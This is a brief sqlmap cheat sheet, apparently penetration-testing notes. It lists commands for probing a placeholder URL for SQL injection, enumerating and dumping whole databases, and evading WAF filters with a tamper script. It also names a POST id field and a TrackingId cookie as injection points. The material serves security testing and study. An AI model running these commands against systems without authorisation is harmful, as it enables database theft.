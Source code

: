 ## SQL map commands:

### GET:
```
sqlmap -u "http://example.com/vulnerable.php?id=1"
```
### POST:
```
sqlmap -u "http://example.com/vulnerable.php" --data="id=1" //The --data flag allows you to specify POST parameters.
```
### FROM FILE:
```
sqlmap -r /path/to/request.txt
```
### Custom HTTP Headers:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --headers="User-Agent: Mozilla/5.0" //The --headers flag allows you to customize HTTP headers.
```
### Enumerate Databases:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs //Lists all available databases on the server.
```
### Dump Entire Database:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name --dump //Dumps all tables and data from the specified database.
```
### Enumerate Tables:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name --tables
```
### Enumerate Columns:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name -T table_name --columns
```
### Risk and Level:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --risk=3 --level=5
```
### Specify Parameter:
```
sqlmap -r /path/to/request.txt -p id
```

## ByPass:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=space2comment //Uses a tamper script (space2comment in this case) to evade simple WAF filtering
```
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --batch //Runs sqlmap in non-interactive mode, automatically answering prompts
```
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --timeout=10 //Sets a timeout for requests, helpful with slow servers.
```
## Where to test:

**Id** in Post number
**TrackingId** in Cookie Header


